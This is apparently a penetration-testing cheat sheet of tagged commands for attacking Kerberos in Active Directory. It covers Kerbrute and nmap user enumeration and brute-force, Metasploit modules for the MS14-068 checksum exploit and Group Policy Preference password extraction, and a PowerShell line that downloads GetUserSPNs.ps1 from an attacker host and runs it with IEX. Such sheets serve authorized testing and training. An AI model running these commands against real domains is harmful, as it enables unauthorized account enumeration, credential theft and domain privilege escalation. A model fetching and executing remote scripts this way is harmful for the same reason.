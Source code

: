 # kerberos

% kerberos

## Kerbrute usersenum
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
./kerbrute_linux_amd64 userenum -d <domain> --dc <ip> <users_file>
```

## kerberos enum users
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'" <ip>
```

## kerberos enum users (with user list)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

## kerberos ms14-068
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - get user SPN
#plateform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```